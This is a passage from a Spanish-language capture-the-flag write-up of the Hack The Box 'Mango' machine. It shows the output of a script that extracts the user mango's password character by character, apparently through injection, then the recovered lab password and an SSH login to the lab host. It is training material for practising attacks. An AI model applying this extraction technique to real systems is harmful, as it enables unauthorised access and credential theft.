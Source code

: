 ``` text
^C
Finishing pending requests...
```

Después de un muchas búsquedas, cancele el bruteforce y continué con lo siguiente, bruteforce a la contraseña de mango.

## mango at mango.htb

Copie el archivo de `discover_admin.py`, modifique el usuario y lance el nuevo script `discover_mango.py`:

``` text
tony@laptop:~/htb/mango$ python discover_mango.py
Found one more char : h
Found one more char : h3
Found one more char : h3m
Found one more char : h3mX
Found one more char : h3mXK
Found one more char : h3mXK8
Found one more char : h3mXK8R
Found one more char : h3mXK8Rh
Found one more char : h3mXK8RhU
Found one more char : h3mXK8RhU~
Found one more char : h3mXK8RhU~f
Found one more char : h3mXK8RhU~f{
Found one more char : h3mXK8RhU~f{]
Found one more char : h3mXK8RhU~f{]f
Found one more char : h3mXK8RhU~f{]f5
Found one more char : h3mXK8RhU~f{]f5H
Found one more char : h3mXK8RhU~f{]f5H$
Found one more char : h3mXK8RhU~f{]f5H$$
Found one more char : h3mXK8RhU~f{]f5H$$$
```

Ahora tenemos otras credenciales mas.

> mango:h3mXK8RhU~f{]f5H

# from mango to admin

## ssh as mango

Ahora con estas nuevas credenciales, probé nuevamente el servicio SSH, esta vez, teniendo éxito:

``` text
tony@laptop:~$ ssh mango@10.10.10.162
mango@10.10.10.162's password:
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-64-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Apr  3 06:26:43 UTC 2020

  System load:  0.82               Processes:            115
  Usage of /:   26.0% of 19.56GB   Users logged in:      1
  Memory usage: 29%                IP address for ens33: 10.10.10.162
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
```
